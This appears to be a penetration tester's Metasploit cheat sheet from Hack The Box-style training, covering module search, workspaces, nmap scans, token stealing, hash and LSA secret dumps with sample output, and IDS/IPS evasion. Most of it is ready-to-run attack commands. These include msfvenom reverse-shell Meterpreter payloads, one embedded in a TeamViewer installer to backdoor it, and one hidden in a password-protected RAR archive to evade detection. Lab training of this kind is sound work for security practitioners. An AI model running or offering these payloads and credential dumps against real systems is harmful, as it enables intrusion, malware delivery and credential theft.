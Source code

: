 ### <span style="color:#b103fc"> MSF Structure Engagement </span>

![[Pasted image 20230503231407.png]]

### Coarse Search
```bash 
msf6 > search eternalromance
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

### Grep

```shell
grep meterpreter show payloads
```

### Encodings
-----
shikate ga nai
```shell
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

### Workspace
----
```shell
msf6 > workspace -a Target_1 # Create workspace & select
msf6 > workspace Target_1 # Select
msf6 > workspace  # List
```

Import scans
```ruby
msf6 > db_import Target.xml # import 
msf6 > hosts # show
msf6 > services
```

nmap inside msfconsole
```ruby
db_nmap -sV -sC -sS 10.0.0.1 # initial
```


### Migrating proccess
-------
```shell
meterpreter > ps # show running proccess
meterpreter > steal_token <PID> # Migrate to proccess
```



### Local  exploit suggester
-------
```shell
Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester    
```

### hash dump

```shell
meterpreter > hashdump

Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::


meterpreter > lsa_dump_sam

[+] Running as SYSTEM
[*] Dumping SAM
```

### MSF - Meterpreter LSA Secrets Dump

```css
meterpreter > lsa_dump_secrets

[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
```


### Firewall and iDS/IPS Evasion
----
- Backdoored executable
hide shellcode inside an existing installer 
```css
Sauuron@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```

archives

```css
Sauuron@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5
Sauuron@htb[/htb]$ wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
Sauuron@htb[/htb]$ tar -xzvf rarlinux-x64-612.tar.gz && cd rar
Sauuron@htb[/htb]$ rar a ~/test.rar -p ~/test.js
Sauuron@htb[/htb]$ r rar a test2.rar -p test; mv test2.rar test2
```
